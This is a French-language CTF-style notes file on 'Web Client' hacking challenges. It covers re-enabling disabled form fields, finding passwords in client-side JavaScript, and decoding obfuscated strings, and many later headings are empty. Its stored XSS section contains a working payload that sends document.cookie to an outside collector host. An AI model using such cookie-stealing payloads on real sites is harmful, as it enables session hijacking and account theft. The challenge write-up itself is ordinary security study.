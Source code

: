 .. index::
   single: WebClient;

Web Client - Hacking
===================

1 : Activer un form qui est désactivé par défaut en HTML
--------------------------------------------------------

Console
::

   var input = document.body.getElementsByTagName("input");
   for(i=0; i<input.length; i++)
   {
      if( typeof(input[i]) != 'undefined' )
          input[i].disabled = false;
   }


Morale : Le HTML peut être modifié et détourné

2. Javascript authentification
--------------------------
::

   Chercher dans les outils de développeurs, le script de login.js

Morale : Les fichiers Js peuvent être visible et leurs informations sensibles, dans F12->application->Frame->Script

3. Javascript source ( même astuce que précédemment )
--------------------------

4. Javascript authentification 2  ( même astuce que précédemment )
--------------------------

5. Javascript - obfuscation 1
--------------------------

   1. Chercher le fichier JS
   2. Trouver la chaine password
   3. passer la chaine dans la fonction

5. Javascript - obfuscation 2
--------------------------

   1. Chercher le pass dans js
   2. prendre la partie exadécimale du pass
   3. unescape('%28104%2C68%2C117%2C102%2C106%2C100%2C107%2C105%2C49%2C53%2C54%29');
   4. console.log(String.fromCharCode(104,68,117,102,106,100,107,105,49,53,54));

6. Javascript - native code
--------------------------

   1. Trouver le code pass natif
   2. Tostring sur le code native ( en enlevant les dernières parentheses pour enlever le mode function du code natif.

7. Javascript - webpack
--------------------------

   1. Chercher le flag dans les sources webpack


8. Javascript - Obfuscation 3
--------------------------------


8. XSS - stockée 1
--------------------------------

savoir si un formulaire permet l'éxécution de code :
::

   <script>console.warn('code executed');</script>

::

   <script>alert('code executed');</script>


Injection de HTML ( et <script> ) dans un form non sécurisé, pour recuperer un cookie sur un hooker a cookie ( avec mdp,..)
::

   <script>window.location="https://sacha.free.beeceptor.com?cookie="+document.cookie</script>


9. CSP Bypass - Inline code
----------------------------

10. CSRF - 0 protection
----------------------------


11. Flash - Authentification
----------------------------

12. CSP Bypass - Dangling markup
----------------------------


13. CSP Bypass - JSONP
----------------------------

14. CSRF - contournement de jeton
----------------------------

15. XSS - Volatile
----------------------------

essai:
Jouer avec l'URL, et le document cookie à envoyer sur un hooker de cookie 
::


   <img src="https://sacha.free.beeceptor.com" onload=(alert('error'); >

16. CSP Bypass - Dangling markup 2
----------------------------

17. Javascript - Obfuscation 4
----------------------------

18. XSS - Stockée 2
----------------------------

19. HTTP Response Splitting
----------------------------

20. Javascript - Obfuscation 5
----------------------------

21. XSS - Stored - contournement de filtres
----------------------------

22. XSS - DOM Based
----------------------------
